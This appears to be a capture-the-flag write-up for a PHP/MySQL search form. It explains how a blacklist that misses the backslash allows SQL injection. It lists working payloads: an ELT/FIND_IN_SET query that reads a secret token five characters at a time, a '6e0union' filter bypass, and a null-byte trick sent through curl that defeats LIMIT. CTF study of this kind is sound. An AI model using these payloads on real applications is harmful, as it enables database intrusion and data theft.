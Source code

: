 ## Writeup
### Intended solution
The given patch shows that some security mechanism were added. One of them was a blacklist that filters some characters in the search string:
```php
$blacklist = array('\'', '"', '/', '*');
return str_replace($blacklist, '', $input);
```
But this sanitize function is incomplete and doesn't filter the backslash character, which allows us to escape the last single quote where the search query is inserted, like so:
```MySQL
WHERE first_name='injection here and escape last quote like so # \'
OR last_name='injection here and escape last quote like so \'
ORDER BY id ASC LIMIT 5
```

This allows us to do a SQL injection, but the problem is that we couldn't use 'union' because it is being detected and and exception is thrown (or not, see the unintended solution section).
Another limitation is the 'LIMIT 5' at the end, which we can't bypass because there is a newline between the injection and the limit statement and we can only perform single line comments (or not, see the second unintended solution).

Furthermore, the patch also introduces as token which changes after every 10 requests, that means that we have to perform an injection that allows us to extract the token in less than 10 requests.
It was also possibel to retrieve a database dump from the students, by navigating to the panels section (it was hidden as a HTML comment), this dump will be usful for the final injection query.

How do we extract a 40 character string using the above injection in less than 10 tries?!

The idea is to create a mapping between user id (given as a search result) and a character in the string as well as the string position. For example, when the student with ID 1 is returned, that means that we have character 'a' at the first posiiton in the string, if student with ID 20 is returned that would mean that the second position in the string is an 'a'. This allows us to read 5 characters at a time (with enough students to create the mapping).

This could be the mapping for the first position in the string, so if one of these IDs is returned we know which character is at the first position.
| 1 | 3 | 4 | 6 | 7 | 10 | 11 | 13 | 14 | 16 | 18 | 19 | 20 | 21 | 22 | 23|
|---|---|---|---|---|----|----|----|----|----|----|----|----|----|----|---|
| a | b | c | d | e | f  | 0  | 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9 |

To do this kind of mapping in MySQL we can use the functions **ELT** and **FIND_IN_SET**

So our injection will look like this:
```
 OR id IN (<mapping right here>)
```

Here is what the mapping looks like from my exploit (for the first 5 characters of the token):
```
 OR id IN (
 (select elt((select find_in_set((select substring(token, 1, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),1,2,3,4,5,6,7,8,9,11,12,14,16,17,20,24)),
 (select elt((select find_in_set((select substring(token, 2, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),25,26,27,31,32,33,34,35,36,37,38,39,40,41,42,43)),
 (select elt((select find_in_set((select substring(token, 3, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),44,45,46,47,48,49,50,51,52,53,55,56,57,58,59,60)),
 (select elt((select find_in_set((select substring(token, 4, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),61,62,63,64,66,67,69,70,71,72,73,74,75,76,77,78)),
 (select elt((select find_in_set((select substring(token, 5, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),79,80,81,82,83,84,85,89,90,91,92,93,94,95,96,97))
 ) # \
```

The above statement is one request and returns 5 characters, we can repeat that 7 more times to get the rest of the 35 characters.

### Unintended solution
Unfortunately there is also an unintended solution (which I didn't know about that that could actually work) which bypasses the union check.
It can be bypassed with some MySQL madness (I have no idea why this even works), which I didn't know about even existed, so something new is learned, but it made the challenge easier than expected :/

```
or 1=6e0union select 1,2,3 #\
```

I hope you still had fun working on it.

### Unintended solution 2
It was actually possible to bypass the 'LIMIT 5' by ending the payload with a semicolon followed by a null byte and the the backslash.

The backslash will escape the end of quote.
The null byte will kill the stream because mysql_query() would interpret it as EOS.
The semicolon will tell the database it is the end of the request.

```
MySQL
WHERE first_name='injection here and escape last quote like so ;\x00\'
OR last_name='injection here and escape last quote like so ;\x00\'
ORDER BY id ASC LIMIT 5
```
######Using cURL
```
curl -X POST --data "name= OR id=<injection>;%00\&site=default&action=search" <Website> 
```
Using this technique allowed the output of 160 ids at the time, making the challenge possible to solve in a single request with the "intended" way using mapping.
